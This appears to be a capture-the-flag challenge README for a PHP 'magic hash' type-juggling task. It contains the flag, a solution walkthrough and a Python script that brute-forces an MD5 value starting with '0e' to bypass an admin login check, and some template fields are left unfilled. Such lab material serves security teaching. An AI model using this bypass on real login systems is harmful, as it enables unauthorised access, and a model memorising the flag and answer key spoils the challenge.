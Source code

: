 # Type Juggling

Author: Cyrus

Date Created/Modified: 29/5/2022

Flag: HNF{w3b_2_simple_5873}

## Description
An MD5 password hash was leaked from a web server `0e639203762320213453`, it is speculated that the all passwords look the same

## Hints
1. Admin login
2. Find a similar hash to the one above

## Setup
```docker-compose up```

## Distribution
These are the files that will be sent to the participants
- YourFileNameHere
    - SHA1: `YourSHA1DigestOfFileHere`
- YourSecondFileNameHere (IF ANY)
    - SHA1: `YourSHA1DigestOfFileHere`

## Solution
Participants must exploit the 0e PHP type juggling vulnerability

1. By trying username admin, particiapants can obtain a number 2406*****
2. Creating a python script and brute forces every number from 240600000 to 240699999 	 
3. The number 240610708 gives the hash 0e462097431906509019562988736854
4. 240610708 is the password to obtain the flag

Solution.py

```
import hashlib

giventext = '2406'
password = 0

while True:
    h = hashlib.md5(bytes(giventext + str(password), 'ascii')).hexdigest()
    if h[:2] == "0e" and h[2:].isdigit():
        print(password)
        break
    password += 1

```

Reads: https://securityaffairs.co/wordpress/36732/hacking/php-hash-comparison-flaw.html